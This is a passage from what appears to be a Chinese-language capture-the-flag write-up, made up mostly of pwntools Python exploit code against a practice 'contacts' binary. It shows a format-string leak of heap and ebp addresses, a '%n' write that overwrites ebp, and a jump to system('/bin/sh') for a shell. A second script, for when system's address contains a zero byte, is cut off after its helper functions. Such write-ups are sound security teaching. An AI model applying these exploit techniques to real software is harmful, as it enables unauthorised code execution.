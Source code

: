 ```python
## get heap addr and ebp addr
payload = flat([
    system_addr,
    'bbbb',
    binsh_addr,
    '%6$p%11$pcccc',
])
createcontact('2222', '2222', '222', payload)
printcontact()
sh.recvuntil('Description: ')
data = sh.recvuntil('cccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)

## modify ebp
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
##print payload
createcontact('3333', '123456789', '300', payload)
printcontact()
sh.recvuntil('Description: ')
sh.recvuntil('Description: ')
##gdb.attach(sh)
print 'get shell'
sh.recvuntil('>>> ')
##get shell
sh.sendline('5')
sh.interactive()
```
system出现0截断的情况下，exp如下:
```python
from pwn import *
context.log_level="debug"
context.arch="x86"

io=process("./contacts")
binary=ELF("contacts")
libc=binary.libc

def createcontact(io, name, phone, descrip_len, description):
	sh=io
	sh.recvuntil('>>> ')
	sh.sendline('1')
	sh.recvuntil('Contact info: \n')
	sh.recvuntil('Name: ')
	sh.sendline(name)
	sh.recvuntil('You have 10 numbers\n')
	sh.sendline(phone)
	sh.recvuntil('Length of description: ')
	sh.sendline(descrip_len)
	sh.recvuntil('description:\n\t\t')
	sh.sendline(description)
def printcontact(io):
	sh=io
	sh.recvuntil('>>> ')
	sh.sendline('4')
	sh.recvuntil('Contacts:')
	sh.recvuntil('Description: ')

#gdb.attach(io)
```